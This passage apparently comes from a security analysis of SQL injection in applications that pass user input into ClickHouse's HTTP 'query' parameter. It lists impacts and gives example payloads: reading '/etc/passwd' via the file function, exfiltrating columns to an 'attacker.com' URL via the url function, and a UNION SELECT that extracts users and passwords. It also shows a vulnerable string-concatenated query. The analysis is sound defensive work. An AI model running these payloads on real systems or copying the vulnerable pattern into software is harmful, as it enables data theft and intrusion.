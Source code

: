 *   **Data Breach (Confidentiality Violation):** Attackers can bypass intended access controls and retrieve sensitive data from ClickHouse databases. This can include user credentials, financial information, personal data, or business-critical information, depending on the application and data stored in ClickHouse. Injected queries can use `SELECT` statements to extract data from tables the application is not intended to expose. Attackers can use techniques like `UNION SELECT` to combine results from different tables or use functions to extract data in bulk.
*   **Data Manipulation (Integrity Violation):**  Attackers can modify or delete data within ClickHouse databases using `INSERT`, `UPDATE`, or `DELETE` SQL statements injected through the `query` parameter. This can lead to data corruption, loss of data integrity, and disruption of application functionality. For example, an attacker could inject `UPDATE` statements to modify product prices, user roles, or critical application settings stored in ClickHouse.
*   **Authentication and Authorization Bypass:** By manipulating SQL queries, attackers can potentially bypass authentication and authorization mechanisms within the application or ClickHouse itself. They might be able to impersonate other users or gain administrative privileges if the application logic relies on vulnerable SQL queries for access control. For instance, if user roles are checked via SQL queries, injection could be used to alter the role check and gain elevated privileges.
*   **Server-Side Command Execution (Availability and Confidentiality/Integrity Violation - Severe):**  In certain scenarios, especially when ClickHouse is configured with less restrictive settings or when combined with ClickHouse-specific functions like `file`, `url`, or `remote`, SQL injection can be escalated to server-side command execution and other severe attacks.
    *   **`file` function abuse:**  An attacker could use `SELECT file('/etc/passwd')` (if the ClickHouse server process has read permissions and ClickHouse user is allowed to use `file` function) to read arbitrary files from the server's file system, potentially exposing sensitive configuration files, credentials, or source code.
    *   **`url` and `remote` function abuse (SSRF/Data Exfiltration/Lateral Movement):** Attackers could use `SELECT url('http://attacker.com/data_exfiltration?data=' || groupArray(sensitive_column))` to exfiltrate data to an external server controlled by the attacker. They can also initiate Server-Side Request Forgery (SSRF) attacks to interact with internal services, potentially accessing internal APIs or resources not directly accessible from the internet. The `remote` function could be abused to connect to other internal databases or systems, facilitating lateral movement within the network.
    *   **Denial of Service (DoS):**  Maliciously crafted SQL queries can be injected to consume excessive server resources, leading to performance degradation or denial of service. For example, resource-intensive queries without proper limits or aggregation functions could be injected.

#### 4.3 Illustrative Examples

**Example 1: HTTP GET Request Injection - Data Exfiltration**

Assume a vulnerable application uses an HTTP GET request to query product information:

```
GET /api/products?category=electronics&sort_by=price HTTP/1.1
```

The application might construct the `query` parameter like this (vulnerable):

```
query = "SELECT product_name, price FROM products WHERE category = '" + request.getParameter("category") + "' ORDER BY " + request.getParameter("sort_by")
```

An attacker can inject malicious SQL to exfiltrate user data by modifying the `category` parameter:

```
GET /api/products?category=electronics' UNION ALL SELECT user, password FROM users --&sort_by=price HTTP/1.1
```
